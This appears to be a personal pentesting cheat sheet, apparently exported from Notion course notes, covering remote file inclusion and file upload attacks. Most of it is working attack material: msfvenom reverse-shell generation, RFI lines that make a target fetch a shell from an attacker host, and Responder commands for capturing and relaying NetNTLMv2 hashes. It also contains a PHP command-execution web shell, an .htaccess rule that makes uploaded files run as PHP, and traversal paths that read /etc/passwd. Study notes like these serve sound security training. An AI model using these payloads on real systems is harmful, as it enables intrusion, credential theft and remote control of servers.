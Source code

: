<aside>
💡 If we can’t include some interesting files (uploads) / View the content via filter / Steal id_rsa.. TRY RFI!

</aside>

### RFI

```jsx
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=9001 -o shell.php
?page=http://192.168.45.200/payload/shell.php
?page=http://192.168.45.200/php/php_reverse_shell.php
```

when we can inject a remote path, especially \\kali_ip\test (smb directory) we can use responder to get the ntlm or ntlmx relay to relay it.

```jsx
~~sudo responder -I tun0 -v~~  # recommended to use -A to avoid spoofing
~~~~sudo responder -A -I tun0 -v
```

<aside>
💡 If we cannot crack the NetNTLMv2 hash we still can try to [Relaying Net-NTLMv2](https://www.notion.so/Relaying-Net-NTLMv2-55e13d96ef574f60a44c3ea618334087?pvs=21).
In the course they showed that if admin02 is connected on files01 we can relay the NetNTLMv2 through our Kali to files02 and gain a shell on files02.

</aside>

### File upload

```jsx
$ cat .htaccess
AddType application/x-httpd-php .evil

$ cat simple-backdoor.evil
<?php
if(isset($_REQUEST['cmd'])){
		echo "<pre>";
		$cmd = ($_REQUEST['cmd']);
		system($cmd);
		echo "</pre>";
		die;
}
?>

http://192.168.204.187/uploads/simple-backdoor.evil?cmd=whoami
```

<aside>
💡 If we can upload a webshell and access it in /uploads - GG!
- Can be used with combo with directory traversal / LFI - abuse the upload path in Burp to put it in /var and then access it like here [http://240.0.0.1:8000/backend/?view=../../../../../../../../etc/passwd
<inject the php webshell to /var!!!>
http://240.0.0.1:8000/backend/?view=../../../../../../../../var/cmd.php&cmd=whoami](Cheat%20sheet%20b2ec1956b01746ed807a1363890b898f.md)
